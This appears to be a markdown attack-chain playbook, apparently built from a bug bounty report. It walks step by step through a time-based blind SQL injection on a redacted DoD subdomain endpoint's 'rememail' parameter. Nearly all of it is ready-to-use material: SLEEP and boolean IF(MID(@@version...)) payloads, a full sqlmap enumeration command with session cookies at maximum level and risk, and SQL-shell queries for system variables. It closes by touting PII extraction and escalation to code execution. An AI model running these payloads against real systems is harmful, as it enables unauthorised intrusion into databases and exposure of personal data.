

# Blind SQL Injection Exploitation for Database Enumeration on DoD Subdomain

Multi-stage attack chain demonstrating blind SQL injection on a U.S. Department of Defense subdomain's /elist/viewem6.php endpoint via the 'rememail' parameter, leading to metadata extraction and potential PII compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/sqlmap]]

### Target Environment

- Web platform with PHP/MySQL backend
- HTTPS on port 443
- DoD subdomain (e.g., https://████████/elist/viewem6.php)

### Initial Access Requirements

- Network access to the target subdomain
- No credentials required (unauthenticated endpoint)
- Burp Suite proxy setup for request interception

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-Endpoint]]

**Objective**: Locate and observe normal behavior of the target endpoint to establish a baseline for injection testing.

**Instructions**: Intercept traffic using [[tools/Burp-Suite]] and send a standard POST request to the endpoint.

```bash
# In Burp Suite Repeater: POST https://████████/elist/viewem6.php
# Body: rememail=test@att.net
```

**Expected Output**: Normal response without errors or delays.

**Success Indicators**:
- Endpoint responds successfully
- Baseline response time established (no delays)

### Step 2: Test for Time-Based SQL Injection
procedure: [[procedures/Test-Time-Based-SQL-Injection]]

**Objective**: Confirm blind SQL injection vulnerability by inducing measurable database delays.

**Instructions**: Modify the POST data in Burp Suite to inject a SLEEP payload and compare against a control.

Use [[commands/sleep-injection-test]] for the vulnerable payload:

```bash
# In Burp Suite: rememail=test@att.net'+(select*from(select(sleep(2)))a)+'
```

Then [[commands/sleep-control-test]] for comparison:

```bash
# In Burp Suite: rememail=test@att.net'+(select*from(select(sleep(0)))a)+'
```

**Expected Output**: 2-second delay for SLEEP(2), no delay for SLEEP(0).

**Success Indicators**:
- Consistent delay on injection payload
- No delay on control, confirming injection point

### Step 3: Enumerate MySQL Version with Boolean Queries
procedure: [[procedures/Enumerate-MySQL-Version-Boolean-Queries]]

**Objective**: Use boolean conditions to extract database version information through delay inference.

**Instructions**: Send conditional payloads in Burp Suite to test version digits.

Execute [[commands/version-check-4]]:

```bash
# In Burp Suite: rememail=test@att.net'+IF(MID(@@version,1,1)=4,sleep(2),1)=2+'
```

Follow with [[commands/version-check-5]]:

```bash
# In Burp Suite: rememail=test@att.net'+IF(MID(@@version,1,1)=5,sleep(2),1)=2+'
```

**Expected Output**: Delay on true condition (version starts with 5), determining 5.0.12 and banner 5.6.36.

**Success Indicators**:
- Delays reveal version details
- Accurate banner extraction

### Step 4: Automate Enumeration with sqlmap
procedure: [[procedures/Automate-Enumeration-with-sqlmap]]

**Objective**: Leverage automation to enumerate users, databases, and privileges efficiently.

**Instructions**: Run sqlmap with high-risk settings against the endpoint, including cookies for session persistence.

Use [[commands/sqlmap-enumerate]]:

```bash
python sqlmap.py -u "https://████████:443/elist/viewem6.php" --data="rememail=test@att.net" --level=5 --risk=3 --users --dbs -b --hostname --current-db --privileges --is-dba --cookie="v1st=A9532F64A9E711AF;PHPSESSID=1796d85a30d3addf5934c1f0fafec529"
```

**Expected Output**: Lists users ('ntmsender'@'localhost'), databases (information_schema, mtlist), banner (5.6.36), hostname (███████), privileges (USAGE).

**Success Indicators**:
- Successful enumeration without errors
- DBA status confirmed (if applicable)

### Step 5: Probe Database Details and Confirm Shared Access
procedure: [[procedures/Probe-Database-Details-Shared-Access]]

**Objective**: Use SQL shell to extract system variables and verify cross-subdomain database sharing.

**Instructions**: In sqlmap's SQL shell, query system variables like user(), @@version, @@basedir, @@port.

Launch sqlmap SQL shell after enumeration and probe manually:

```bash
# In sqlmap SQL shell: SELECT user(); SELECT @@version; SELECT @@basedir; SELECT @@port;
```

Cross-reference with known reports (e.g., #311922) for shared DB confirmation.

**Expected Output**: System details (e.g., user 'ntmsender'@'localhost', compile machine) and shared DB evidence.

**Success Indicators**:
- System variables extracted
- Shared database access confirmed, amplifying impact

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQLi in unauthenticated endpoint
2. Enumerated MySQL metadata and user privileges
3. Verified shared database across subdomains, enabling broader compromise
4. Demonstrated potential for PII extraction and RCE escalation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[System Information Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
